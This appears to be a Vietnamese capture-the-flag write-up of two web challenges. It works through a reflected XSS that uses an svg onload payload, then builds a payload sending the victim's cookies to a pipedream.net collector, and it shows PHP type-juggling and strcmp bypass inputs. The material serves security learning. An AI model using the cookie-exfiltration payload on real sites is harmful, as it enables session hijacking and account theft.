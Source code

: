 # Web
## 1.Hi Hi Hi
    http://146.190.115.228:20109
### Solution:
+ Mình nhập thử text `hacked` thì thấy hiện trên Dom nên mình đoán có thể là lỗi reflect:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325544380_1539785776490524_506576420518357102_n.png?stp=dst-png_p403x403&_nc_cat=110&ccb=1-7&_nc_sid=aee45a&_nc_ohc=mxRJjvm2h5sAX-IFnMw&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdShnEbKx5Gp4lBumSBFoVxAwb74bLspb0fMNVfKDYhvdw&oe=63EDEAC8)
+ Mình thử nhập `<script>alert(10)</script>` thì bị filter:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325232288_1517370485416235_7328303388423511686_n.png?stp=dst-png_s240x240&_nc_cat=104&ccb=1-7&_nc_sid=aee45a&_nc_ohc=H8c6WsiYx8oAX-QqT_I&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdRiX6GujoIBAJpe-w_pNUJMuDinPcWTvP6VU6nypt-5YA&oe=63EDEFAB)
+ Sau mình dùng burpsuite thì thấy message in ra nằm trong thẻ div:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/324403300_562610902450716_1189522020715437705_n.png?stp=dst-png_p206x206&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=6yIEw5U1lVIAX9zld-t&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdTY0ssYhl3oZNB1qfBO3-_ceuEbpJthnSPDJ7RMv_YsZg&oe=63EDE9DC)
+ Mình thử dùng thẻ img mà bị filter,sau mình dùng thẻ svg `<svg onload="alert(10)"/>` thì được thật:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325477432_2098078310381765_4736637555871183436_n.png?stp=dst-png_s320x320&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=jKu7GXo4pP8AX9qvg-l&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdSkixswTyARzDg7zpDQLwZu4b0kxf1lCMFazZyQjhCN2A&oe=63EDF35D)
+ Nên mình thử lấy cookie của máy mình `<svg onload="window.location='https://eoudjoqqnbfym00.m.pipedream.net/?cookie='.concat(document.cookie)"/>` thi get duoc cookie:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/323534900_8642520609151521_3244213864135894936_n.png?stp=dst-png_p206x206&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=lRuhKcBSIhoAX97nNtA&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQ6GC-6hq-578_lPfn9EAdr3iu_mZKfmt4P1PExbJeDzA&oe=63EDCE99)
+ Nên mình thử gửi report luôn payload:
`http://127.0.0.1:13337/?message=http://146.190.115.228:20109/?message=%3Csvg+onload%3D%22window.location%3D%27https%3A%2F%2Fexxxxxxxxxxxx00.m.pipedream.net%2F%3Fcookie%3D%27.concat%28document.cookie%29%22%2F%3E` thì nhận được flag.

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325683778_853163225933721_2454076518486329042_n.png?stp=dst-png_p206x206&_nc_cat=110&ccb=1-7&_nc_sid=aee45a&_nc_ohc=P1Ocdj5eECoAX8E_sJb&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQxmVbprZ3IDsyaHAJItwRZj36LoTcpkwy5tE0aWTvcgg&oe=63EDD4F2)

> Flag: KCSC{T3T_TU1_3_T13P_Hmmmmmmmm}
## 2.Phpri Phprai
### Topic:
    http://47.254.251.2:8889
### Solution:
+ Mình truy cập vào trang web thì thấy source code:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/322813543_1179131372737339_4021760199972033425_n.png?stp=dst-png_p228x119&_nc_cat=106&ccb=1-7&_nc_sid=aee45a&_nc_ohc=kzIGxc6LX0oAX8wVo0k&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQ0pDRhJwl1xoOZ4DNMhqm5AJgWz_iahHVSKtjdVAanmg&oe=63EED9DD)

+ Mình thấy bài này là vượt qua so sánh lỏng lẻo toán tử `==` của php,nên hãy đi bắt đầu từng flag:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/323049955_1327220921429635_4229566663682593967_n.jpg?stp=dst-jpg_p206x206&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=Lcd4g8J_lGoAX-RqqVg&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdRFYD-bdfjM6ropJDxHuvzxggRzmoK72VmfrsdphIRYoQ&oe=63EEF117)
+ Flag1

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/322599078_1176725533214479_1578787794598973144_n.png?_nc_cat=106&ccb=1-7&_nc_sid=aee45a&_nc_ohc=ydTON2wPZRIAX_7rKvM&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdRIaiiVahXLjyyH7KTnA_TlnvuGQpWo215GqAkf351Yqg&oe=63EEE60D)

    Bài này là đê vượt qua vòng if thì phải nhập vào 2 chuỗi có giá trị khác nhau nhưng md5 thì phải bằng nhau,thì mình search có dạng đặc biệt đó là 
    md5('240610708') == md5('QNKCDZO')
    Mình gửi ?1=240610708&2=QNKCDZO nhận được flag1
> Flag1 : KCSC{B0_u_Bu_S4
+ Flag2:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/324526603_683025153523892_8768434602679411762_n.png?_nc_cat=101&ccb=1-7&_nc_sid=aee45a&_nc_ohc=OkbGC3AcaFkAX_o2Dd6&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdTg8QqHKvVIpWSLdX6eAioChsi6QkXI0fsJBLIUJ1DzGQ&oe=63EF0B34)

    Ở đây là so sanh chuỗi mình truyển vào với $$flag phải bằng 0.
    Mình thấy $$flag nó sẽ trả về "" vì chắc kh có khai báo $(value của flag) nên mình chỉ cần truyền cho giá trị vào là NULL nữa là ok
    strcmp(NULL, "") => 0
    Chỗ này mình nhập ?3=
> Flag2 : C_8usssssss_htt
+ Flag3:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/324453455_555571979835563_7248040904010364804_n.png?_nc_cat=106&ccb=1-7&_nc_sid=aee45a&_nc_ohc=I9okEdn0B1wAX93-8O6&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdRDg8ai1aUoXHKYuWJUPa8fgNmXoXD9M1ZqoQ4lLWtchw&oe=63EEEA82)

    Chỗ này mình thấy chỗ đầu so sánh giá trị nhập vào phải bằng 1.4e5 mà so sánh chặt thì bắt buộc phải khác nên mình sẽ chuyển đổi 1.4e5 sang hệ 10 là 140000 
    Chỗ này mình nhập ?4=140000 
> Flag3: ps://www.youtub
+Flag4:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/324719822_891765618666228_2347351895924653674_n.png?_nc_cat=109&ccb=1-7&_nc_sid=aee45a&_nc_ohc=yB6DdA054yQAX8eCOAb&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdTTRkDgM1a737zX90jbwF7x7CX4jTzumZNSwL_QWbIPLg&oe=63EF086A)

    Ý này là nhập vào chuỗi phải == 69 và phải !== 69 và '69',ở đây có thêm hàm trim loại bỏ khoảng trắng 2 đầu và bắt buộc phải có 2 kí tự
    Nên mình thử gửi ?4= 69 ở đây các bạn phải có thêm khoảng trắng ở giữa khi url encode sẽ chuyển thành %20 hoặc bạn có thể thử với ?4=+69
> Flag4 : e.com/watch?v=x
+ Flag5:

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/322015460_880947103330654_5389033022234246472_n.png?_nc_cat=100&ccb=1-7&_nc_sid=aee45a&_nc_ohc=IjgZsVswdyMAX9TCyD2&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdSf6H_VmjqwGiCPzDDTHd7nQ_NUcOREkjMxRuqzcSQj9w&oe=63EF0AD6)

    Chỗ này thì bắt chúng ta nhập mỗi chuỗi phải bằng KaCeEtCe nhưng trước lúc đó thì preg_replace("/$var1/", '', $str6) đã chuyển chuỗi đó thành '' nên mình chỉ cần truyền giá trị chuỗi vào nằm trong KaCe${var1}EtCe
    ở đây bạn truyền vào chỗ nào cũng được miễn là nằm ở trong chuỗi đó
    Ở đây mình nhập ?6=KKaCeEtCeaCeEtCe

> Flag5:QtC3F8fH6g}

Gộp 5 flag lại với nhau ta được flag cuối cùng
> Flag: KCSC{B0_u_Bu_S4C_8usssssss_https://www.youtube.com/watch?v=xQtC3F8fH6g}



